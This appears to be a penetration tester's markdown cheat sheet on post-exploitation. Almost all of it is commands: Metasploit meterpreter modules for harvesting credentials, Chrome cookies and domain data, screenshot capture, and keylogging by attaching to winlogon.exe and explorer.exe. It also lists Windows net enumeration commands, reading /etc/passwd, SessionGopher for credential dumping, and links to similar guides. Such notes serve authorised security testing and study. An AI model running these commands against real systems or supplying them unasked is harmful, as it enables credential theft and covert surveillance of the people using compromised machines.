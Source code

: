 # Gather info
## Metasploit
* `meterpreter> run post/windows/gather/*`
* `meterpreter> run post/linux/gather/*`
* `meterpreter> run post/windows/gather/credentials/*`
* `meterpreter> run post/linux/gather/credentials/*`
* `run post/windows/gather/credentials/credential_collector`
* `meterpreter> run post/windows/gather/enum_domains`
* `meterpreter> run post/windows/gather/enum_ad_users`
* `meterpreter> run post/windows/gather/enum_shares`
* `meterpreter> run post/windows/gather/enum_applications`

## Windows
* `net view /domain`
* `net group "<domain-name>" /domain` - get list of domain controllers
* `net users`
* `net localgroup`
* `net localhroup <group-name>`
* `net share`

## Linux
* `cat /etc/passwd`

## Cool resources
* Windows
    * https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US
    * https://tim3warri0r.blogspot.com/
* Linux
    * https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US
    * https://book.hacktricks.xyz/linux-hardening/linux-post-exploitation
* OSX        - https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US
* Metasploit - https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1


# Gather data
## Metasploit
* `meterpreter> run scraper`
* `meterpreter> run winenum`
* `meterpreter> screenshot`
* keylogging
   * screen unlock          -> attach process to __winlogon.exe__
   * application keystrokes -> attach processes to __explorer.exe__
   * `meterpreter> keyscan_start` - start sniffer
   1. `meterpreter> keyscan_dump` - print keystrikes on screen
   2. `meterpreter> keyscan_stop` - stop sniffer
  </br>or</br>
   * `meterpreter> keylogrecorder` - start sniffer
 * `meterpreter> run post/windows/gather/credentials` - double tab to see all modules
 * `meterpreter> run post/windows/gather/enum_chrome` - chrome data: cookies, credentials, history
 * `meterpreter> run post/windows/gather/credentials/credential_collector`
 * `meterpreter> run post/multi/gather` - double tab to see all modules

## Other tools
* SessionGopher - dump local credentials (Windows)

## Cool resources
* https://wiki.zacheller.dev/pentest/post-exploitation/file-transfers

